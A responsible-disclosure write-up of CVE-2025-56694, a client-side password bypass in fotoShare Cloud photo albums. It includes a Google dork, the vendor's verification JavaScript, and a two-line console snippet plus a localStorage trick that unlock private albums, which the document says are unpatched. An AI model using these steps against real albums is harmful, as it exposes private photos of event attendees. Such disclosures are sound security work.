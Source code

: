 ```yaml
---
title: "Password Bypass Vulnerability in fotoShare Cloud Events"
date: 2025-08-20 10:00:00 +0000
layout: post
---
```


# Vulnerability Summary
- **CVE ID:** [CVE-2025-56694](https://www.cve.org/CVERecord?id=CVE-2025-56694)  
- **Vendor:** LumaSoft  
- **Product:** fotoShare Cloud (public-facing SaaS photo album platform)  
- **Affected Component:** Password-protected photo albums  
- **Affected Versions:** All deployments up to at least 2025-08-20 (no patch available)  
- **Vulnerability Type:** Incorrect Access Control ([CWE-602: Client-Side Enforcement of Server-Side Security](https://cwe.mitre.org/data/definitions/602.html))  
- **Impact:** Remote attackers can bypass client-side password protection to access private photo albums and images without authorization.  
- **Attack Vector:** Network  
- **Discoverer:** inf0sectom  

# What is fotoShare Cloud?

[fotoShare Cloud](https://fotoshare.co/) is a SaaS offering clients to instantly upload pictures taken from IRL photobooths to online photo albums that can be shared with event attendees via a URL. This URL is shared with attendees by email or SMS directly from the photobooth. 

[Passwords can be set on these photo albums](https://support.lumasoft.co/hc/en-us/articles/360046797573-Event-Privacy-and-Link-Sharing) by the owner of the photobooth, so that only guests with the password can view pictures from that event. For added privacy, photobooth owners can disable guest access so that guests cannot see other photos from the event. Typically, events only contain one album. Events, albums and images all have their own unique IDs.

# Finding the Vulnerability
## robots.txt
Events and photo albums are all available from the `/e/` and `/a/` subfolders, respectively. I was curious to see if these were indexed by Google, which led me to finding many albums through simple Google dorks, such as `inurl:/e/ site:fotoshare.co`. I then checked fotoShare's `robots.txt` file, to confirm it was missing these subfolders:

```console
C:\>curl https://fotoshare.co/robots.txt
User-agent: *
Disallow: /s/
Disallow: /u/
Disallow: /i/
```

Doing this led me to finding events and photo albums that were password-protected.

## Password-Protected Events

Hoping to find a vulnerability in the password protection mechanism, I inspected the JavaScript of a password-protected event and found the password verification function below:
```javascript
function verifyPassword(){
	var pwd = $("#albumPassword").val();
	$.ajax({
       url:'/album/validatepassword',
       type:'POST',
       data:{'password':pwd, 'album_id': '<album_id>' },
       dataType:'json',
       success:function(result){
       	 if(result.success){
       	    // would be expire in an year
            localStorage.setItem('album_<album_id>', 'true') ;
            
            $('#passwordModal').modal('hide') ;
   	 	 	 	        lazySizes.init();
       	 } else {
       	 	$('#notMatchedError').html('Incorrect Password');
       	 }
       }
    });
}
```

As you can see, this function takes the password entered by the user and submits it, along with the ID of the album, to the server through a POST request in AJAX.
The server returns `True` or `False` depending on whether the correct password for the album is entered. If the returned value is `False`, the page will display "Incorrect Password", but if the returned value is `True`, `if(result.success)` will execute the following:

```javascript
localStorage.setItem('album_<album_id>', 'true') ;// Locally store a value indicating the album as being visible 
$('#passwordModal').modal('hide') ;               // Hide the password prompt
lazySizes.init();                                 // Load the images via LazySizes
```

LazySizes is a JavaScript library used for lazy loading media content (such as images) on a webpage, to defer the loading of non-essential resources until they are needed. This is typically done to improve page load performance. In this case, it was wrongly used to prevent event images from being loaded by the client until the correct password is submitted by the client.

While the password verification is correctly done server-side, the actual mechanism to display the album was therefore done client-side, meaning there was nothing preventing an attacker from simply running the code contained within `if(result.success){}` directly from the browser console. This security weakness is referred to by MITRE as [CWE-602: Client-Side Enforcement of Server-Side Security](https://cwe.mitre.org/data/definitions/602.html).

To confirm no authentication (such as a session token) was required to access images in password-protected events, I looked through the page's source code and successfully accessed the URLs contained in the `<img>` tags (such as the one below) in a private window. The URLs of password-protected images were referenced directly in the page's source code and available without an authentication mechanism.

```html
<img data-src="https://cdn-bz-op.fotoshare.co/<path_redacted>/<filename_redacted>.jpg?aspect_ratio=1:1.002&amp;width=450" class="lazyload border-radius-thumb" onerror="this.src='/img/blank-image.jpg'">
```

### Further Issues

The value stored locally by the first line contained within `if(result.success){}` (`localStorage.setItem('album_<album_id>', 'true') ;`) was being used in the JavaScript code below, when the page is loaded, so that clients wouldn't have to enter the password multiple times to see the album again. This meant that a malicious actor could also simply manually store the value and refresh the page to bypass the password-protection.

```javascript
var authenticated = JSON.parse(localStorage.getItem('album_<album_id>'));

if(true && authenticated !== true){
       $('#passwordModal').modal('show') ;
          $("#passwordModal").modal({
            keyboard: false,
         backdrop: 'static'
          });
          
          $('#albumPassword').focus();
          
          $('#albumPassword').on("keypress", function (e) {            
            if (e.keyCode == 13) {
             // Cancel the default action on keypress event
             e.preventDefault();
             verifyPassword(); 
               }
          });
          
          $('#passwordForm').on("submit", function (e) {            
              e.preventDefault();
             verifyPassword(); 
          });
    
} else {
             lazySizes.init();
}
```


# Exploiting the Vulnerability

A remote attacker could simply browse the web page of a password-protected event and run the JavaScript code below from the web browser's console to access private pictures:

```javascript
$('#passwordModal').modal('hide') ;               // Hide the password prompt
lazySizes.init();                                 // Load the images via LazySizes
```

A remote attacker could also parse the web page's source code to list the URLs of the private images, since these are directly referenced in an insecure manner.

As a result, private photo albums intended to be accessible only to event participants with a password can be viewed by anyone with the public album URL.

# Responsible Disclosure Timeline
- **2025-03-12**: Discovered the vulnerability.
- **2025-03-13**: Opened a support ticket with LumaSoft (parent company) and disclosed both the vulnerability and the privacy issue related to their `robots.txt` file, which was then forwarded by the support staff to their development team.
- **2025-04-02**: Independently confirmed that the privacy issue related to the `robots.txt` file has been resolved.
- **2025-04-28**: After requesting for an update, LumaSoft support confirmed the development team is working on other updates.
- **2025-05-16**: After receiving no further updates, a 60-day deadline before public disclosure was provided to LumaSoft.
- **2025-06-17**: After receiving no further updates, a 30-day reminder was sent to LumaSoft.
- **2025-07-11**: A final reminder was sent to LumaSoft.
- **2025-07-18**: A CVE ID request was sent to MITRE.
- **2025-08-20**: [CVE-2025-56694](https://www.cve.org/CVERecord?id=CVE-2025-56694) was reserved by MITRE.
- **2025-08-27**: [CVE-2025-56694](https://www.cve.org/CVERecord?id=CVE-2025-56694) was published by MITRE, with a CVSS 3.1 score of **5.8 (Medium)**.


# Notes
*Text within angle brackets (`<>`) has been replaced throughout this write-up for privacy reasons.*